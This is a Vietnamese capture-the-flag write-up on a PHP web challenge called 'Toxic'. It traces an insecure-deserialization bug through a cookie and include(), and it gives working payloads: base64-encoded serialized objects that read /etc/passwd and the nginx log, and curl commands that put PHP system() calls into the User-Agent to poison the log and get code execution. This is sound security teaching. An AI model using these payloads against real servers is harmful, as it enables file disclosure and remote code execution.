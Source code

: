 # `CHALLENGE DESCRIPTION`

<table>
<th style="text-align: center">
<img width="600" height="1">

```
CHALLENGE INFO
```

</th>

<th style="text-align: center">
<img width="282" height="1">

```
TABLE OF CONTENT
```

</th>
<tr>

<td width="600">      

<code> Toxic </code>

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

**Tags:** `PHP`, `source-code-analysis`, `insecure-deserialization`, `log-poisioning`

</td>

<td>
<img width="600" height="1">

- [`CHALLENGE DESCRIPTION`](#challenge-description)
- [`QUICK PREVIEW`](#quick-preview)
- [`SOURCE CODE ANALYSIS`](#source-code-analysis)
- [`EXPLOITAION`](#exploitaion)
	- [Log Poisoning](#log-poisoning)
	- [`👽` Get Flag](#-get-flag)
</td>

</tr></table>

# `QUICK PREVIEW`

Đây là một bài White Box, chúng ta được cung cấp source code của Web App.

Sau khi giải nén folder `Toxic.zip`, ta được folder có cấu trúc như sau: 

```shell
Toxic
└── web_toxic
    ├── challenge
	│   ├── models
	│	│   └── PageModel.php
	│   ├── static
	│   │   ├── basement
	│   │   ├── css
	│   │   ├── images
	│   │   └── js
	│   ├── index.html
    │   └── index.php
    ├── config
	│   ├── fpm.conf
	│   ├── nginx.conf
	│   └── supervisord.conf
	├── build-docker.sh
	├── Dockerfile
	├── entrypoint.sh
	└── flag
```

→ Ta có cái nhìn sơ lược về Web App: 
+ Web Tech: `PHP`
+ Server: `nginx` 

Đây là giao diện của trang web

![](../../attachments/Pasted%20image%2020220727042358.png)

→ Mình chưa tìm thấy tính năng gì của trang web cả. → Đọc source code thôi!

# `SOURCE CODE ANALYSIS`
Khi mình đọc được code của file `index.php`, mình biết được sự tồn tại của cookie cũng như cách hình thành nên nó.

App sẽ tạo giá trị của cookie bằng cách thực hiện quá trình `serialize` biến `$page`, sau đó encode bằng thuật toán base64. Đồng thời cũng gán thời gian tồn tại của `cookie` là 86400 giây.

```php
<?php

spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);

unserialize($cookie);
```

Nhìn kĩ lại biến `$page` là một `object PageModel`, vậy PageModel này là gì ? Tiếp tục nhìn source code, mình phát hiện file `PageModel.php` nằm trong folder `Toxic\web_toxic\challenge\models\` có nội dung như sau:

```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

→ PageModel là một object có 1 property là `$file` và một magic method là `__destruct()` (method này sẽ tự động được gọi khi  1 object PageModel không được sử dụng nữa, cụ thể [here](https://www.php.net/manual/en/language.oop5.decon.php#object.destruct))

Ở đây, app đã bị lỗi `Insecure deserialization`.  Bởi những chuỗi các yếu tố liên kết sau:

+ `Untrusted Data` ( `$_COOKIE['PHPSESSID']` ) rơi vào quá trình `Deserialize`
+ Một `object` có `magic method` thực thi một `sink` nguy hiểm ( `include()` )

# `EXPLOITAION`

Quá trình exploit khá đơn giản (khi chưa bị Object Injection cũng như Gadget Chains).

Đầu tiên, mình sẽ xem hình dạng của cookie trước và sau khi decode base64 như thế nào. Và trông mặt mũi một object khi được seriallize.

![](../../attachments/Pasted%20image%2020220727051536.png)

Sau khi decode base64, cookie của ta có giá trị như sau:

![](../../attachments/Pasted%20image%2020220727051637.png)

Bắt đầu exploit bằng một payload đơn giản, mục đích của payload này là đọc được file /etc/passwd. Và mình sẽ thử modify cookie lại cho đúng syntax của một object sau khi seriallize như sau:

```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

> Để đảm bảo đúng cấu trúc syntax của một object khi seriallize thì có thể tham khảo thêm [here](https://www.php.net/manual/en/function.serialize.php). 

Tiếp theo thực hiện encode base64 lại object.

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
```

Quăng vào cookie của trang web và xem kết quả:

![](../../attachments/Pasted%20image%2020220727052012.png)

→ Ngon. Hoàn toàn đọc được file /etc/passwd của server.

## Log Poisoning

Cũng tương tự, mình sẽ tạo ra 1 payload để có thể đọc được `file log` của server. Để biết file này nằm đâu ta có thể xem cho file `Docker` của src.

```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```

Tiếp theo mình sẽ thực hiện gửi một cú request với User-Agent như dưới:

```console
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A "<?php echo 1+1;?>"
HTTP/1.1 200 OK
<--SNIP-->
```

Đây là kết quả

![](../../attachments/Pasted%20image%2020220727053231.png)

Payload đơn giản hoạt động tốt, tiếp đến ta sẽ thực hiện list ra xem thư mục root có những gì

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('ls /');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:08 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:08 GMT; Max-Age=86400; path=/
```

Kết quả:

![](../../attachments/Pasted%20image%2020220727053501.png)

## `👽` Get Flag 

Tiến hành đọc FLAG thôi

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('cat /flag_Wqi4U');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:26 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:26 GMT; Max-Age=86400; path=/
```

![](../../attachments/Pasted%20image%2020220727053924.png)


